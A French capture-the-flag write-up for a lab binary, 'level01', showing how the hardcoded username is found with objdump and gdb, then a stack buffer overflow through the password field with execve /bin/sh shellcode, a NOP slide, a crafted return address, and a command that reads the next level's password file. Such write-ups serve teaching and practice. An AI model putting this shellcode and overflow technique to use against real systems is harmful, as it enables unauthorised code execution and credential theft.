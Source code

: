 Quand on lance le binaire ./level01 on nous demande d'entrer un username : 

********* ADMIN LOGIN PROMPT *********
Enter Username:

Pour le trouver c'est très simple il suffit de faire un objdump -d level01 et on trouve dans la fonction <verify_user_name> à l'instruction <+25> 0x80486a8 qui est mov dans %eax puis comparé a notre entrée.
En regardant avec gdb : 

x/s 0x80486a8 => "dat_wil"

On a donc notre username.

Ensuite un mot de passe nous est demandé (le mot de passe est admin on utilise la même technique pour le trouver) mais dans tout les cas on voit qu'aucune fonction permettant de récupérer le flag n'est présente dans le programme.

On peut réécrire sur l'EIP grâce au champ password. (buffer|76| -> EBP|4| -> EIP|4|)

Si on entre 84 * "A" dans le champ password on aura un crash a l'adresse 0x41414141 on va donc commencer par ajouter notre script dans l'environement avec un nop slide de 80 pour des questions de pratiques : 

> export SCRIPT=$(python -c 'print "\x90"*80 + "\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1"')

On lance gdb pour trouver une adresse qui tombe en plein dans les nops :
0xffffd900 => \x00\xd9\xff\xff

On place notre payload dans un fichier :
> python -c 'print "dat_wil" + "\n" + "A"*80 + "\x00\xd9\xff\xff"' > /tmp/toto

On lance le binaire avec le fichier /tmp/toto redirigé dans son stdin :
> (cat /tmp/toto; cat) | ./level01

cat /home/users/level02/.pass
    PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv